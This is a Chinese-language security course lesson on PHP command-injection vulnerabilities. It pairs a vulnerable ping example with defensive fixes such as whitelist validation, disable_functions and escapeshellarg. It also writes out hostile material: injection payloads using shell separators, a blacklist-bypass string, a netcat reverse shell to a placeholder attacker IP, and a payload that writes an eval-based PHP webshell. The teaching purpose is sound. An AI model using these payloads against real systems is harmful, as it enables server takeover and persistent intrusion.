




# 🛡️ 网络安全课程 P23：第21天 - 命令执行漏洞利用及防御

在本节课中，我们将深入学习命令执行漏洞的利用方法以及如何进行有效的防御。我们将通过分析代码逻辑、构造Payload和了解防护策略，来全面掌握这一高危漏洞。


***


## 📚 课程回顾与概述


上一节我们介绍了命令执行漏洞的基本概念、产生原因以及相关的危险函数。本节中，我们将重点探讨如何利用这些漏洞，并学习相应的防护措施。





命令执行漏洞的产生，与SQL注入、XSS等漏洞类似，都是由于应用程序没有对用户的输入进行严格的检查与过滤，将用户输入直接当作代码或系统命令执行。


***


## 🔍 命令执行漏洞原理再探


其危害性与我们之前讲解的WebShell类似。攻击者可以利用应用系统上的此类漏洞，执行服务器命令，从而获取服务器的Shell权限。


我们介绍了两种主要的执行类型：
1.  **远程代码执行**：漏洞存在于代码逻辑中，执行的是PHP代码。若想执行系统命令，仍需调用执行系统命令的函数。
2.  **远程命令执行**：应用系统本身存在调用系统命令的功能点（例如`ping`检测），在PHP中需要调用如`system()`、`exec()`等函数。如果未对用户输入进行过滤，则极易导致命令执行漏洞。


在远程代码执行中，我们主要介绍了`eval()`、`assert()`等函数。这些函数在执行我们构造的一句话木马时也常被用到。


以下是PHP中常用于执行外部命令的函数：
*   `exec()`
*   `system()`
*   `passthru()`
*   `shell_exec()`





***


## 🎯 漏洞利用：特殊字符的妙用


上一节我们提到了命令执行中常用的特殊字符，但未进行实例演示。本节我们将通过具体例子，演示如何利用这些特殊字符构造Payload来执行命令。





我们以一个简单的“Ping测试”功能页面为例。该页面接收用户输入的IP地址，并调用系统`ping`命令进行检测。其核心问题在于，未对用户输入的`$ip`变量做任何过滤，直接拼接到了`shell_exec()`函数中。


```php
// 漏洞代码示例
$ip = $_POST['ip'];
// 未对 $ip 进行任何过滤
shell_exec("ping -c 3 " . $ip);
```


攻击者可以利用特殊字符，在原本的`ping`命令后拼接额外的命令。


以下是几种常见的命令连接符及其利用方式：


**管道符 `|`**
*   **作用**：将前一个命令的输出，作为后一个命令的输入。无论前一个命令是否成功，后一个命令都会执行。
*   **Payload示例**：`127.0.0.1 | whoami`
*   **服务端实际执行**：`ping -c 3 127.0.0.1 | whoami`。最终会执行`whoami`命令并返回结果。

**分号 `;`**
*   **作用**：顺序执行多条命令。
*   **Payload示例**：`127.0.0.1; whoami`

**逻辑与 `&&`**
*   **作用**：只有前一个命令执行成功（返回值为0），才会执行后一个命令。
*   **Payload示例**：`127.0.0.1 && whoami`


**逻辑或 `||`**
*   **作用**：只有前一个命令执行失败（返回值非0），才会执行后一个命令。
*   **Payload示例**：`invalid_ip || whoami`

***


## 🛡️ 漏洞防御策略分析


我们通过四个逐步加强的代码例子，来分析不同的防御策略及其优劣。


**案例一：无任何过滤**
*   **情况**：直接拼接用户输入，存在严重漏洞。
*   **防御**：无。


**案例二：黑名单过滤（不完整）**
*   **情况**：使用`str_replace()`过滤了`&`和`;`字符。
*   **漏洞**：黑名单不完整，可被绕过。例如，输入`127.0.0.1 &;& whoami`，过滤掉中间的`;`后，剩下的`&&`仍可执行命令。
*   **防御建议**：黑名单策略存在固有缺陷，难以覆盖所有危险字符。


**案例三：严格黑名单过滤**
*   **情况**：过滤了更多字符，如`|`、`&`、`;`、`|`、`>`等。
*   **漏洞**：仍然可能被未收录的冷门连接符或编码方式绕过。
*   **防御建议**：比案例二更安全，但并非万无一失。


**案例四：白名单验证（推荐）**
*   **情况**：对输入进行严格校验。先将IP地址按`.`分割，然后检查每一段是否为合法的整数（IP段），最后再拼接执行。
*   **代码逻辑**：
    1.  `$ip = stripslashes($_POST[‘ip’]);` // 去除转义
    2.  `$ip_array = explode(‘.’, $ip);` // 按点分割
    3.  循环检查`$ip_array`中每个元素是否为整数（`is_numeric`）。
    4.  全部合法后，再拼接成IP进行`ping`操作。
*   **防御效果**：由于攻击Payload（如`127.0.0.1;whoami`）被分割后，`whoami`部分无法通过整数验证，因此会被拦截。这是针对特定功能点最有效的防御方式之一。


***




## ⚔️ 进阶利用：获取Shell与写入WebShell


在确认存在命令执行漏洞后，攻击者通常会尝试获取一个交互式Shell或写入WebShell以维持访问。


**1. 反弹Shell**
*   **使用 `nc` (Netcat)**：
    *   攻击机监听：`nc -lvnp 4444`
    *   在漏洞点执行：`127.0.0.1; nc -e /bin/sh 攻击机IP 4444`
    *   这样，攻击机就能获得目标服务器的一个Shell。
*   **使用 `bash` 或 `python` 等**：存在多种命令可以直接反弹Shell。


**2. 写入WebShell**
*   直接使用`echo`命令写入一句话木马。
    *   **Payload示例**：`; echo ‘<?php @eval($_POST[“cmd”]);?>’ > shell.php`
*   如果存在字符过滤（如过滤分号`;`），可以构造无分号的一句话木马，或使用编码、拼接等方式绕过。


***


## 🛡️ 综合防护建议


1.  **禁用高危函数**：在PHP配置文件（`php.ini`）中，使用`disable_functions`指令禁用不必要的危险函数。
    ```ini
    disable_functions = exec,system,passthru,shell_exec,proc_open,popen,curl_exec,curl_multi_exec,parse_ini_file,show_source,eval,assert
    ```

2.  **严格过滤输入**：根据业务场景，优先使用**白名单**验证。如果必须使用黑名单，务必确保名单的完整性，并考虑递归过滤。

3.  **使用安全函数**：如果必须执行外部命令，使用`escapeshellarg()`或`escapeshellcmd()`函数对参数进行转义。
    ```php
    $clean_ip = escapeshellarg($_POST['ip']);
    system("ping -c 3 " . $clean_ip);
    ```

4.  **降低权限**：运行Web服务的用户（如www-data、apache）应使用最低必要权限，避免使用root账户。

5.  **开启安全模式（旧版PHP）**：对于老版本环境，可考虑`open_basedir`等限制，但现代防护中更强调前几点。

***

## 📝 本节课总结

本节课我们一起深入学习了命令执行漏洞的利用与防御。
*   我们回顾了漏洞原理，区分了代码执行与命令执行。
*   我们通过实例详细讲解了如何利用管道符、分号等特殊字符构造攻击Payload。
*   我们分析了从“无过滤”到“白名单验证”四种不同防御代码的优劣，明确了**白名单验证**是针对特定功能的最佳实践。
*   我们了解了攻击者如何通过漏洞反弹Shell或写入WebShell，并学习了综合性的防护建议，包括禁用函数、严格输入过滤和使用转义函数。


理解这些攻击手法和防御原理，对于开发安全的应用程序和进行有效的安全测试都至关重要。